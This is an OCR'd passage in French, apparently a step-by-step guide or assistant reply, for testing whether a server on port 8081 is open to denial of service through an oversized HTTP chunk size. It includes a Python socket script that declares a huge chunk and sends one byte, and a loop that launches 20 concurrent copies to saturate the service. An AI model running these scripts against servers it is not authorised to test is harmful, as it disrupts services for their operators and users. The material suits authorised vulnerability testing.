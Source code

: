 # Déclare un chunk très grand (0x10000000 = 268435456) mais envoie très peu de données
s.sendall(b"10000000\r\n")  # taille du chunk (hex)
s.sendall(b"X\r\n")         # données insuffisantes

try:
    data = s.recv(4096)
    if data:
        print("Réponse reçue :")
        print(data.decode(errors='ignore'))
    else:
        print("Aucune donnée reçue (connexion fermée).")
except socket.timeout:
    print("Timeout : pas de réponse dans le délai imparti.")
finally:
    s.close()
    print("Connexion fermée.")

3. 
chmod +x /tmp/test_chunk.py
python3 /tmp/test_chunk.py

## Conclusion en théorie (attendu)
Si le serveur renvoie immédiatement une erreur HTTP (400/411/413) ou ferme la connexion, il gère correctement la validation et n’est pas vulnérable au vecteur simple.
Si la connexion reste ouverte sans réponse et le serveur consomme CPU/mémoire ou d’autres connexions deviennent lentes, cela indique une vulnérabilité DoS liée au chunked large.
Si tu obtiens une réponse courte (ex. page d’erreur) note-la.
Colle la sortie du script et l’état du serveur (commande top ou ps aux --sort=-%mem | head) si tu observes un comportement anormal. Je te donnerai alors la conclusion et l’étape suivante.

# Étape 5 : Confirmer le blocage en ouvrant plusieurs connexions simultanées et observer la saturation du service.

## Sous-étapes :
1. 
# Lancer 20 requêtes concurrentes vers le serveur
for i in $(seq 1 20); do
  python3 /tmp/test_chunk.py &
done

# Observer la charge
top -b -n1 | head -20
sudo ss -tanp | grep 8081 | wc -l

## Conclusion en théorie (attendu)
Si le nombre de connexions actives augmente et le serveur commence à ralentir ou refuser de nouvelles connexions → vulnérabilité confirmée (DoS large chunk).
Si tout reste stable et les connexions se ferment rapidement → le serveur gère les timeouts correctement et n’est pas vulnérable en pratique.
